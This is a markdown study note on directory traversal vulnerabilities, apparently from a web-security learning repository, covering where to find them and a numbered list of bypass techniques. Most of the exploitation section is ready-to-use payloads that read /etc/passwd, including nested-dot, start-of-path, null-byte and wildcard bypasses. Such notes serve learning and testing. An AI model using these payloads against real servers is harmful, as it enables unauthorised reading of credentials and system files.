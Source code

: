 # Directory Traversal
## Introduction 
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.


## Where to Find
- spot all the requests that interacts with the files on the server 
- use burp active scan
- try some LFI and RFI (will be discussed later on)

## How to exploit
**1. File path traversal, simple case**
- Determine whether the server is linux on win (make use of responses, use wapalizer extenstion)
- try simple payload for relative path
```
filename=../../../../../../etc/passwd
```
- absolute path 
```
filename=/etc/passwd
```
- so the functionality may be implemented using relative or absolute path 
**2.  traversal sequences blocked with absolute path bypass**
- simply use absolute path 
```
filename=/etc/passwd
```
**3. traversal sequences stripped non-recursively**
- if ../ is sanitized non recursevly 
```
filename=..././..././..././etc/passwd
```
**4. traversal sequences stripped with superfluous URL-decode**
- some times there is a client side validation, so do url encoding, and double it , it may bypass the defense 

**5. validation of start of path**
```
filename=/var/www/images/../../../etc/passwd
```
**6. validation of file extension with null byte bypass**
- what is null byte ? 
	- represent an end of a string 
	- %00 
	- when the server reads it, it will cut any thing after it
```
filename=/etc/passwd%00.png
```
7. Make use of Wild Cards 
```
filename=/???/??ss?? => /etc/passwd
```